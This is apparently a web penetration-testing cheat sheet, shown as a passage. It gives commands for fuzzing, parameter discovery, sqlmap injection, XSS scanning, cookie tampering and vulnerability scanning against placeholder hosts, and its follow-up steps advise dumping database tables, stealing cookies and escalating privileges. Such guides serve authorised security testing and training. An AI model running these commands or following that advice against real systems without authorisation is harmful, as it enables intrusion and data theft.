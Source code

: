 ```bash
ffuf -w /usr/share/wordlists/params.txt -u 'http://target.com/page?FUZZ=test' -o ffuf-param-output.txt

# Header Fuzzing
ffuf -w /usr/share/wordlists/headers.txt -u http://target.com -H 'FUZZ: test' -o ffuf-header-output.txt
```
*What to look for:* 200/403/401 status codes, interesting directories/files, valid logins, vhosts, parameters, or headers.  
*What to do next:* Visit found URLs, try to access restricted areas, test for vulnerabilities, or escalate access.

- **Parameter Discovery**
```bash
arjun -u http://target.com/page -oT arjun-output.txt
paramspider -d target.com | tee paramspider-output.txt
```
*What to look for:* Parameters in URLs (e.g., ?id=, ?user=).  
*What to do next:* Test discovered parameters for SQLi, XSS, LFI, etc.

- **SQL Injection**
```bash
sqlmap -u "http://target.com/page?id=1" --dbs -o --batch --output-dir=sqlmap-output
sqlmap -r request.txt --batch --risk=3 --level=5 -o --output-dir=sqlmap-advanced-output
```
*What to look for:* Database names, tables, extracted data.  
*What to do next:* Dump tables, look for credentials, escalate access.

- **XSS Testing**
```bash
dalfox url http://target.com -o dalfox-output.txt
xsstrike -u http://target.com | tee xsstrike-output.txt
```
*What to look for:* Reflected input, alert popups, script execution.  
*What to do next:* Try to steal cookies, escalate privileges, or bypass controls.

- **Cookie Tampering**
```bash
curl http://domain.com/cookie-test
curl https://domain.com/cookie-test

curl -H "Cookie: logged_in=true; admin=false" http://domain.com/cookie-test
curl -H "Cookie: logged_in=true; admin=false" https://domain.com/cookie-test

curl -H "Cookie: logged_in=true; admin=true" http://domain.com/cookie-test
curl -H "Cookie: logged_in=true; admin=true" https://domain.com/cookie-test
```
*What to look for:* Changes in access, privilege escalation, or bypassed restrictions.  
*What to do next:* Try to access admin-only features, escalate privileges, or bypass authentication.

- **Vulnerability Scanning**
```bash
nikto -h http://target.com -o nikto-output.txt
wpscan --url http://target.com --enumerate u,p -o wpscan-output.txt
nuclei -u http://target.com -o nuclei-output.txt
```
*What to look for:* Vulnerabilities, outdated software, weak plugins, user accounts.  
*What to do next:* Exploit found vulnerabilities or weak points.
